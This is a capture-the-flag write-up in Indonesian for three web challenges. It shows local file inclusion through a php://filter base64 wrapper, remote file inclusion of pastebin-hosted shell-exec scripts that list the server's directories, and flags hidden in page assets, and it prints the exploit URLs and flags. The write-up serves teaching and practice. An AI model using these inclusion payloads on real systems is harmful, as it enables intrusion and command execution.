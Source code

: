 
<h4>eRFI Minta Tolong</h4>

<pre>
Flag jauh dari apa yang kamu liat:* 
http://ccug.my.id:20001/ 
Author: aldo Berikut adalah tampilan website
</pre>

berikut adalah tampilan website
<img src="erfi1.JPG">
Saya mencoba masuk ke halaman flag, tampil kalimat Ga ada euy
<img src="erfi2.JPG">
Lalu dari sini saya mencoba melakukan php wrapper dengan encode code script menjadi base64 dengan url berikut ccug.my.id:20001/index.php?page=php://filter/convert.base64-encode/resource=flag.php berikut yang muncul
<img src="erfi3.JPG">
Lalu saya coba decode base64 tersebut
<img src="erfi4.JPG">
Ternyata ketika saya input hanya flag palsu :P, kemudian saya baca baca kembali mengenai RFI ternyata saya menemukan metode dengan membuat script shell exec dengan menggunakan raw pastebin https://pastebin.com/raw/knGELgnB saya buat script sebagai berikut
<img src="erfi5.JPG">
Lalu saya implementasikan ke web challenge dengan memasukan pastebin berikut
<img src="erfi6.JPG">
Ternyata hanya terdapat 2 file php yaitu flag dan index ketika saya buka halaman flag hanya muncul halaman seperti tadi yaitu ga ada euy
<img src="erfi7.JPG">
Akhirnya disini saya mencoba mengubah script saya kembali dengan memberikan ls / yaitu melihat direktori berikut nya dengan –la untuk menampilkan file yang dihidden https://pastebin.com/raw/keEru4T7
<img src="erfi8.JPG">
Lalu saya masukan raw tersebut ke dalam url challenge ccug.my.id:20001/index.php?page=https://pastebin.com/raw/keEru4T7 sehingga muncul sebagai berikut
<img src="erfi9.JPG">
Dari halaman diatas saya melihat tersedia file 1NI_Fl4G_eUy.txt yang membuat saya ingin membuka file tersebut lalu saya buka dengan url berikut ccug.my.id:20001/index.php?page=/1Ni_fL4g_eUy.txt dan saya coba input
<img src="erfi10.JPG">
ternyata benar flag dari challenge ini adalah 
<pre>
hackfest{widihhh_mantep_euy_tau_aja_ada_disini}
</pre>


<br>

<h4>Where Are You Now?</h4>
<pre>
Hehehe boi 
http://ccug.my.id:20000/ 
Author: aldo
</pre>


Berikut adalah halaman utama pada website tersebut
<img src="now1.JPG">
Ketika saya masuk ke dalam halaman flag ini yang ditampilkan seperti berikut
<img src="now2.JPG">
Lalu saya mencoba melihat source code dari halaman ini dengan menggunakan php wrapper encode source code ke base64 dengan url berikut ccug.my.id:20000/index.php?page=php://filter/convert.base64-encode/resource=flag.php
<img src="now3.JPG">
lalu saya coba decode base64 tersebut dengan menggunakan terminal
<img src="now4.JPG">
Dan ternyata setelah didecode muncul flag challenge ini
<pre>
hackfest{tau_kan_harus_diapain_nih_flag?_ya_disubmit_lah:)}
</pre>

<br>

<h4>Bayi IE</h4>
<pre>
Ezz Parah Gak Usah Nanya (1) 
http://ccug.my.id:22121/ 
Author: Ikhari
</pre>

Berikut adalah halaman website challenge ini
<img src="bayi1.JPG">
Saya mencoba inspect dan melihat source code dari web ini ternyata saya menemukan clue dari flag
<img src="bayi2.JPG">
Sebelumnya saya pernah menemukan challenge yang serupa jadi sedikit optimis dengan chal ini :P, lalu saya lihat file yang berhubungan dengan source code ternyata ketika dibuka file vega.min.js terdapat sambungan flag
<img src="bayi3.JPG">
Kemudian Saya mencoba mencari 1 sambungan lagi setelah membuka satu persatu saya menemukan nya di file templetamo-style.css
<img src="bayi4.JPG">
Sehingga ketika saya gabungkan menjadi
<pre>
hackfest{IE_AdAlaH_Hal_ PaLiNg_pEnTing_DAlaM_menCARI_iNfo}
</pre>